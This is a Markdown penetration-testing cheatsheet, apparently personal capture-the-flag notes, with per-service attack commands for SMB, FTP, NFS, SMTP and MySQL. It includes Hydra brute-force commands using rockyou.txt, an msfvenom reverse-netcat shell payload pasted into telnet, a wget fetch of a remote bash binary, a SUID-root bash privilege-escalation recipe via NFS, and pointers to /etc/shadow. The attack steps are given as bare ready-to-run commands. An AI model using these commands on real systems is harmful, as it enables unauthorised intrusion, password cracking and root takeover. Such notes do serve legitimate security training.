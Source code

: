 # Cheatsheet

### Common 

* https://www.exploit-db.com/exploits/20745
* words `sudo apt install seclists`
https://github.com/security-cheatsheet/metasploit-cheat-sheet 



### Commands 
* help  [-h / -help / --help] or man
* ```systemctl stop myservice```
* SSH with key `ssh -i <key-file> <username>@<ip>`
* SSH with Password `ssh username@IP`
* list all permissions `ls -la fielname`
* Copy file `cp /temp/test /temp/folder/`
* Copy Directory `cp -r  /temp/test /temp/folder/`
* move file `mv /temp/test /temp/test2 `
* copy fileusing SSH `scp file.txt remote_username@10.10.0.2:/remote/directory`
* copy directory using SSH `scp -r /root/directory remote_username@10.10.0.2:/remote/directory`
* text `nano`, `vim`, `vi`



## Useful location  
  ### .ssh Key 
   * Private key ssh ```/home/user-name/.ssh```
   * This file is the private key ```id_rsa```
   * change the file permission ``` chmod 600 ```
   * `ssh -i <key-file> <username>@<ip> `
  ### Wordlists 
   * /usr/share/wordlists/SecLists/Usernames
   *  if not found install it `sudo apt install seclists`
   *  /usr/share/wordlists/rockyou.txt 
 ### Password 
  * listing users `/etc/passwd`
  * listing passowrd `/etc/shadow` 
  
  ### Nmap


# Fast Tool 
## Netcat
* nc 192.168.1.1 8080
* nc -lvp [listening port], `nc -lvp 4444`

## Hydra 
* used to brute force Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB
* hydra -t 4 -l username -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp



## Webserver 
### Python code 
* run web server `python3 -m http.server`
* run web server `python3 -m http.server 8090`
* using this to download `wget http://127.0.0.1:8000/file`


# Services  

## SMB
### Enumerating SMB
* enum4linux [options] ip
* use option  ```-a``` all of the above (full basic enumeration)

### SMB Exploit 445, 139
* smbclient //[IP]/[SHARE]
* smbclient //10.10.10.2/sharefilename -U username -p 445

## Telnet 23
### Enumerating Telnet
* nmap
### Exploiting
* telnet [ip] [port]

## FTP 21
### channels 
* a command (sometimes called the control) channel
* a data channel.
### Enumerating FTP
* nmap
### Exploiting
* "ftp [IP]" into the console, and entering "anonymous", and no password when prompted.

## NFS 
### NFS Tools
* `sudo apt install nfs-common`
* by defualt mount,showmount, nfsstat, gssd, idmapd, lockd, statd,
### Enumeration
* nmap
* show all shares `/usr/sbin/showmount -e [IP] `
### Exploiting
* create folder `mkdir /tmp/mount`
* mount folder `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

## SMTP 25
### Enumeration
* nmap
* msfconsole
* auxiliary/scanner/smtp/smtp_enum
### Exploiting
* ` hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV MACHINE_IP ssh` 

## MYSQL 3306
### Install 
* ` sudo apt install default-mysql-client`
### Enumeration
* nmap
### Exploiting
* ` mysql -h [IP] -u [username] -p` 

# Shells 
## Simple Shell msfvenom 

* using telnet 
```
"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

```
* copy and paste the value on telnet session 

### Privilege Escalatation 
### Instalaltion 
* Download bash shell wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash 
## SUID
* SUID: the file or files can be run with the permissions of the file(s) owner/group.
* change bash file to suid bit `chmod +s filename`
* change to excute `chmod +x filename`
* change ower to root `chown root fielname`
* validate (sr-x) permssion `ls -la fielname`
* move the file to target (SSH/ NFS/ FTP )
* run the file with `./fielname -p` on target 
# other Important 
## Start a tcpdump listener

